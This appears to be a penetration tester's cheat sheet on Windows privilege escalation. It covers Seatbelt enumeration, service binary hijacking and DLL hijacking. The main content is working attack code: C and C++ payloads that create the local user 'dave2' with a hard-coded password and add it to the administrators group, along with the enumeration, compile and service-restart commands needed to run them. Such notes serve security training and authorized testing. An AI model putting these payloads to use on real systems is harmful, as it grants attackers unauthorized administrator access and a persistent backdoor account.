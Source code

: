 ### Seatbelt
```powershell
.\Seatbelt.exe -group=all
```

---

## Privilege Escalation Vectors

### Service Binary Hijacking

**Scenario**: Unprotected service binary that any user can overwrite.

1. Identify the service:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

2. Check permissions:
```powershell
icacls "C:\path\to\binary.exe"
```

3. Create payload (adduser.c):
```c
#include <stdlib.h>
int main() {
    system("net user dave2 Password123@ /add");
    system("net localgroup administrators dave2 /add");
    return 0;
}
```

4. Compile:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

5. Replace service binary and restart service:
```powershell
net stop <service>
net start <service>
```

---

### DLL Hijacking

**Concept**: Replace or place a malicious DLL in a directory that’s loaded by a service due to an insecure search order.

DLL Template (C++) – `adduser.dll`:
```cpp
BOOL APIENTRY DllMain(...) {
    system("net user dave2 Password123@ /add");
    system("net localgroup administrators dave2 /add");
    return TRUE;
}
```
